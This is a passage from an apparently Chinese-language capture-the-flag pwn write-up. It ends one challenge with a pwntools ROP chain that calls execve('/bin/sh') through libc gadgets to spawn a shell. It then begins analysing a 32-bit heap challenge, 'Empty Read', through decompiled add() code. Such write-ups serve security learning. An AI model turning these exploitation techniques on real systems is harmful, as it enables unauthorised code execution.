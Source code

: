 ```

p_rsi_r = 0x0000000000027529 + libc.address
p_rdx_r12_r = 0x000000000011c371 + libc.address

exp = p64(0) + p64(p_rdi_r) + p64(libc.search(b"/bin/sh\x00").__next__())
exp += p64(p_rsi_r) + p64(0) + p64(p_rdx_r12_r) + p64(0)*2
exp += p64(libc.sym['execve'])

p.sendline(exp)

p.interactive()
```



## Empty Read

这是一个`32`位的程序。

首先我们看一下程序的整体逻辑。程序一共提供了`4`种功能和一个用来查看远程`libc`版本的`debug`选项。这四个功能分别是`add,edit,show,delete`。依次来看一下，首先是`add`函数。

```
puts("\tUser index to add:");
  read(0, buf, 4u);
  index = atoi(buf);
  if ( index &lt; 0 || index &gt; 9 || user_list[index] )
  `{`
    puts("\tInvalid user index!");
  `}`
  else
  `{`
    user_list[index] = (struct my_user *)malloc(8u);
    if ( !user_list[index] )
      goto LABEL_6;
    memset(buf, 0, sizeof(buf));
    puts("\tUser email length:");
    read(0, buf, 4u);
    email_length = atoi(buf);
    if ( email_length &lt;= 0 || email_length &gt; 512 )
      email_length = 512;
    user_list[index]-&gt;email_length = email_length;
    v0 = user_list[index];
    v0-&gt;email = (int)malloc(v0-&gt;email_length);
    if ( user_list[index]-&gt;email )
    `{`
      puts("\tUser email:");
      length = read(0, (void *)user_list[index]-&gt;email, user_list[index]-&gt;email_length);
      if ( length &lt;= 0 )
        *(_BYTE *)user_list[index]-&gt;email = 0;
      else
        *(_BYTE *)(user_list[index]-&gt;email + length) = 0;
    `}`
    else
    `{`
LABEL_6:
      puts("\tSomething went wrong, try again!");
    `}`
  `}`
```
